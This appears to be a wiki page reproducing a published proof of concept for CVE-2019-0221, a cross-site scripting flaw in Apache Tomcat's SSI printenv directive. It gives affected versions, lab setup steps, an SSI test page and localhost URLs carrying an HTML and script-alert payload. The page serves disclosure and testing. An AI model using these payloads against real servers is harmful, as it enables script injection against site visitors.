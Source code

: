 <languages /> <translate>

影響版本
--------

</translate> Version: Apache Tomcat 9.0.0.M1 to 9.0.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93

XSS
---

    # Exploit Title: Apache Tomcat 9.0.0.M1 - Cross-Site Scripting (XSS)
    # Date: 05/21/2019
    # Exploit Author: Central InfoSec
    # Version: Apache Tomcat 9.0.0.M1 to 9.0.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93
    # CVE : CVE-2019-0221

    # Requirements:

    # SSI support must be enabled within Apache Tomcat. SSI support is not enabled by default.

    # A file (usually "*.shtml") with the "printenv" SSI directive must exist within the web application.

    # The file must be accessible.



    # Proof of Concept:

    # Install a Java Runtime Environment (JRE)

    # Download a vulnerable version of Tomcat and extract the contents

    # Modify line 19 of the conf\context.xml file to globally enable privileged context
    Context privileged="true">

    # Modify conf\web.xml to enable the SSI Servlet as per the Apache Tomcat User Guide

    # Put the following code in "webapps/ROOT/ssi/printenv.shtml"
    <html>
      <body>
        Echo: <!-- #echo var="QUERY_STRING_UNESCAPED" --> <br/> <br/>
        Printenv: <!-- #printenv -->
      </body>
    </html>

    # Run Tomcat
    cd bin
    catalina run

    # Call the following URLs to observe the XSS. You may need to use FireFox. Observe the difference between the "echo" directive which escapes properly and the "printenv" directive which does not escape properly
    http://localhost:8080/ssi/printenv.shtml?%3Cbr/%3E%3Cbr/%3E%3Ch1%3EXSS%3C/h1%3E%3Cbr/%3E%3Cbr/%3E
    http://localhost:8080/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E